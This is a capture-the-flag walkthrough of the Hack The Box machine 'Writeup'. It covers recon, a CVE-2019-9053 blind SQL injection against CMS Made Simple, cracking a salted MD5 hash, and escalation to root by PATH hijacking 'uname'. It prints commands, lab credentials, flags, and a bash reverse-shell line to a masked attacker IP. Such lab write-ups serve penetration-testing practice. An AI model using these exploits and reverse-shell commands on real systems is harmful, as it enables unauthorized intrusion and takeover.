


---

**Author:** sonyahack1
**Date:** 17.04.2025

## Summary

- Foothold: CVE:2019-9053 in CMS Made Simple 2.2.10
- User Flag: `7468b016888a3abb1477ef87cc0df148`
- Root Flag: `17b8b01a6606046c4a7f4debb3ab1cf4`
- Credentials:
  - `user:jkr`
  - `password:raykayjay9`

---

> add the machine's IP address to /etc/hosts:

```bash

echo "10.10.10.138 writeup.htb" | sudo tee -a /etc/hosts 

```

## Recon

```bash

nmap -sVC -p- -v -T5 writeup.htb -oN WriteupNmap

```
> Result:

```bash

22/tcp open  ssh        OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  tcpwrapped

```

> On the server side there is protection against a large number of client requests (Anti DDoS) and the server blocks requests from my IP for a certain time.
> I reduce the intensity of nmap scanning to avoid blocking and get a full result of scanning the target.

```bash

nmap -sVC -p- -v -T3 --max-rate 300 writeup.htb -oN WriteupNmap

```

> Result

```bash

22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```
> From the received information I see 22 ssh and 80 web ports open. Apache 2.4.25 server on Debian

> The main page on port 80 states that the server **has a script against DoS attacks from Eeyore installed and that it blocks unwanted IP addresses
> that generate a large number of requests to the server**. The name of the user who left this text is also listed there - "jkr@writeup.htb" (this will be useful later)

> **Note:** It's worth remembering about Anti-DoS, as it's actually a limitation when performing a scan. You need to be careful when collecting information and try not to generate too much traffic.
> Anyway, this is an informational page and there's nothing else interesting here



> The scan also showed the presence of an entry in the robots.txt file - /writeup/


> The page has functionality for opening various text machines that the author provided.

> The source code of the page showed that the site runs on the Made Simple CMS engine.

```bash

curl -s 'http://writeup.htb/writeup/index.php?page=writeup' | grep -i cms

```
> Result

```html

<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
	<!-- cms_stylesheet error: No stylesheets matched the criteria specified -->

```
> whatweb tool also showed the information about CMS

```bash

whatweb http://writeup.htb/writeup/index.php?page=writeup

```

> Result

```bash

http://writeup.htb/writeup/index.php?page=writeup [200 OK] Apache[2.4.25], CMS-Made-Simple, Cookies[CMSSESSID9d372ef93962], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)],
IP[10.10.10.138], MetaGenerator[CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.], Title[writeup - writeup]

```
## Entry point

> The version of this CMS is not specified, but the source code of the page indicates 2004-2019. Presumably, the site ended support in 2019 and was no longer updated.
> After a search in Google for a list of versions of this CMS along with their release date, I found this table:



> **Note:** I checked each version for CVE and found **CVE:2019-9053 (SQL Injection) for Made Simple 2.2.10**.

> This vulnerability allows an unauthorized attacker to extract sensitive data from the site's database.
> This is a blind, timed SQL injection in the News module. The issue is related to the m1_idlist parameter, which is not sufficiently filtered before being
> used in SQL queries. This allows an attacker to send specially crafted queries that, depending on the contents of the database, cause delays in the server's response.
> By measuring these delays, an attacker can recover the contents of the database one character at a time, including logins, password hashes, email addresses, and admin salts

> ExploitDB has a ready-made Python exploit that does all of this, consisting of five functions:

1. dump_salt()
2. dump_username()
3. dump_email()
4. dump_password()

> But when exploiting it, I constantly encountered blocking from the server side due to the large number of requests. So I decided that I don't need all the functions of the exploit.
> It is enough to leave 'dump_password() and dump_salt()', which will extract the hash + salt. I found out the username at the very beginning (the first page on port 80) - 'jkr'

```bash

python3 CVE.py -u 'http://writeup.htb/writeup/'

```

> Result

```bash

[+] Salt for password found: 5a599ef579066807
[+] Password found: 62def4866937f08cc13bab43bb14e6f7

```

```bash

hashid 62def4866937f08cc13bab43bb14e6f7
Analyzing '62def4866937f08cc13bab43bb14e6f7'
[+] MD2 
[+] MD5 
[+] MD4 

```
> By hashid the hash is of type md5. But there is also salt, so the type is md5(sault + hash)
> I save the hash+salt in a text file and run it through hashcat

```bash

echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash.txt

hashcat -m 20 hash.txt /usr/share/wordlists/rockyou.txt --force

```
> Result

```bash

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

```

> With the received data I connect via ssh to the system under the 'jkr' user and receive the **first flag**.

```bash

ssh jkr@10.10.10.138 
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt 
7468b016888a3abb1477ef87cc0df148
jkr@writeup:~$

```

```bash

user - 7468b016888a3abb1477ef87cc0df148

```

## Privilege Escalation

> display a list of user groups

```bash

jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
jkr@writeup:~$

```
> group 'staff' Allows users to add local modifications to the system without needing root privileges

> display a list of directories included in the 'staff' group.

```bash

find / -group staff -ls 2>/dev/null

```
> Result

```bash

131445     20 drwx-wsr-x   2 root     staff       20480 Apr 19  2019 /usr/local/bin
131450     12 drwx-wsr-x   2 root     staff       12288 Apr 19  2019 /usr/local/sbin

```
> Of the entire list, the most interesting for me are the /usr/local/bin and /usr/local/sbin directories with 'writable' permissions - that is, the right to write something in these directories.

> **Note:** I could also just list directories with the 'writable' flag - "find / -writable -type d 2>/dev/null"

> Since I can write/overwrite any files in these two directories and which can be executed, I need to find a process that executes any command with root privileges
> without specifying an absolute path.

> **Note:** I tried working through the cron scheduler, since the scheduled tasks contain scripts that use Linux commands without specifying an absolute path. For example, 'cp' or 'basename'.
> But it didn't work, because the system deleted my scripts from /usr/local/bin and /usr/local/sbin after a certain time, and the cron tasks themselves simply wouldn't run manually.

> I decided to do it differently. I used the "pspy" script, which allows you to catch the launch of new processes in real time, even those that are launched
> by cron, by timer or by some scripts. I needed to find out if there was something that the system always executes under certain conditions with root privileges.
> In the end, I found an interesting command that the system executes every time a user connects via ssh.

```bash

2025/04/26 17:29:28 CMD: UID=0     PID=2894   | sshd: [accepted] 
2025/04/26 17:29:28 CMD: UID=0     PID=2895   | sshd: [accepted]  
2025/04/26 17:29:31 CMD: UID=0     PID=2896   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/04/26 17:29:31 CMD: UID=0     PID=2897   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/04/26 17:29:31 CMD: UID=0     PID=2898   | run-parts --lsbsysinit /etc/update-motd.d 
2025/04/26 17:29:31 CMD: UID=0     PID=2899   | uname -rnsom 
2025/04/26 17:29:31 CMD: UID=0     PID=2900   | sshd: jkr [priv]

```
> We are interested in this line:

```bash

sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new

```

> Simply put, the process starts a shell and executes a command that, in a clean environment (with only the specified PATH), executes all valid scripts from /etc/update-motd.d/, and writes their output to /run/motd.dynamic.new.
> the file with the 10-uname script in /etc/update-motd.d calls the "uname" command without specifying an absolute path every time someone connects via ssh.

> The 'Path hijacking' technique. Knowing the name of the command (uname) and having 'writable' rights in the /usr/local/bin and /usr/local/sbin directories, I write a file for the reverse shell to any of them.

```bash

echo -e '#!/bin/bash\nsh -i >& /dev/tcp/*.*.*.*/4444 0>&1' > /usr/local/bin/uname
chmod +x /usr/local/bin/uname

```

> In my terminal:

```bash

nc -lvnp 4444

```

> login the system as 'jkr' and get a reverse shell as root.

```bash

root@writeup:/# id
uid=0(root) gid=0(root) groups=0(root)
root@writeup:/# cd /root/
root@writeup:/root# ls 
bin  root.txt
root@writeup:/root# cat root.txt 
17b8b01a6606046c4a7f4debb3ab1cf4
root@writeup:/root#

```
```bash

root - 17b8b01a6606046c4a7f4debb3ab1cf4

```
